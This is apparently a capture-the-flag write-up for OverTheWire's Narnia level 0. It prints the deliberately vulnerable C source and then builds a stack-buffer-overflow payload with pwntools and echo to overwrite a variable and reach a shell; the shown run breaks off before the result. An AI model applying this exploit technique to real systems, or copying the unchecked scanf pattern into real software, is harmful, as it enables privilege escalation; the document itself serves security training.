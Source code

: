 ```c

int main(){
    long val=0x41414141;
    char buf[20];

    printf("Correct val's value from 0x41414141 -> 0xdeadbeef!\n");
    printf("Here is your chance: ");
    scanf("%24s",&buf);

    printf("buf: %s\n",buf);
    printf("val: 0x%08x\n",val);

    if(val==0xdeadbeef){
        setreuid(geteuid(),geteuid());
        system("/bin/sh");
    }
    else {
        printf("WAY OFF!!!!\n");
        exit(1);
    }

    return 0;
}
```
```bash
narnia0@gibson:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
```
After inputting some random nonsense the c program, it looks like it contains a buffer overflow.
```bash
narnia0@gibson:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAA
val: 0x41414141
WAY OFF!!!!
narnia0@gibson:/narnia$ ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
Here is your chance: AAAAAAAAAAAAAAAAAAAA
buf: AAAAAAAAAAAAAAAAAAAA
val: 0x41414100
WAY OFF!!!!
```
It seems that we have found where the buffer overflow starts, now let's convert deadbeef into something the program properly understands.
```bash
narnia0@gibson:/narnia$ python3
Python 3.12.3 (main, Feb  4 2025, 14:48:35) [GCC 13.3.0] on linux
Type "help", "copyright", "credits" or "license" for more information.
>>> from pwn import *
>>> print(p64(0xdeadbeef))
b'\xef\xbe\xad\xde\x00\x00\x00\x00'
```
Now that we know where the bufferoverflow sits, and the 0xdeadbeef has turned into little-endian binary format. We can attempt to exploit the binary.
```bash
narnia0@gibson:/narnia$ echo -e "AAAAAAAAAAAAAAAAAAAA\xef\xbe\xad\xde\x00\x00\x00\x00" | ./narnia0
Correct val's value from 0x41414141 -> 0xdeadbeef!
```